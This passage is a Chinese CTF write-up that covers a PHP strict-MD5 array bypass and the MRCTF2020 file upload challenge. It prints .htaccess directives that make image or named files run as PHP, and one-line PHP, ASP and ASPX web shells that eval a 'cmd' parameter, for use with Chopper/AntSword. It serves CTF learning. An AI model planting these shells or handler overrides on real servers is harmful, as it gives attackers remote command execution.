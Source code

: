     - 下方代码中的比较为强比较,即只能采用php数组绕过

        ```php
         <?php

        error_reporting(0);
        include "flag.php";

        highlight_file(__FILE__);

        if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
            echo $flag;
        }
        ```

## MRCTF2020 文件上传漏洞(.htaccess+一句话木马)——菜刀/蚁剑

1. .htaccess 简介：
   .htaccess文件(或者"分布式配置文件")提供了针对目录改变配置的方法， 即，在一个特定的文档目录中放置一个包含一个或多个指令的文件， 以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。管理员可以通过Apache的AllowOverride指令来设置。
   概述来说，htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过htaccess文件，可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。
   启用.htaccess，需要修改httpd.conf，启用AllowOverride，并可以用AllowOverride限制特定命令的使用。如果需要使用.htaccess以外的其他文件名，可以用AccessFileName指令来改变。例如，需要使用.config ，则可以在服务器配置文件中按以下方法配置：AccessFileName .config 。
   笼统地说，.htaccess可以帮我们实现包括：文件夹密码保护、用户自动重定向、自定义错误页面、改变你的文件扩展名、封禁特定IP地址的用户、只允许特定IP地址的用户、禁止目录列表，以及使用其他文件作为index文件等一些功能。
2. .htaccess利用：
   1. 这里时是要包含所有文件带有lx1的文件（只要文件名里面有lx1都可以），都会被当成php代码执行

        ```.htaccess
            <FilesMatch "lx1">
            SetHandler application/x-httpd-php
            </FilesMatch>
        ```

   2. 这种方法时，后面的.png或者.jpg文件能被当成php代码执行，如果想换成别的改扩展名就可以

        ```.htaccess
            AddType application/x-httpd-php .png
            AddType application/x-httpd-php .jpg
        ```

3. 上传完.htaccess后，再上传菜刀,(菜刀名称需要和.htaccess中的一致)
   *每次上传文件都需要BP抓包，修改Content-Type*

   ```php
    php:<?@eval($_POST['cmd']);?>
    asp:<% request('cmd') %>
    aspx:<%@ Page Language="Jscript"%><% eval(Request.Item['cmd'],"unsafe");%>

   ```

4. 利用蚁剑连接，得到网站目录

## 羊城杯2020 easyphp(.htaccess制造后门)
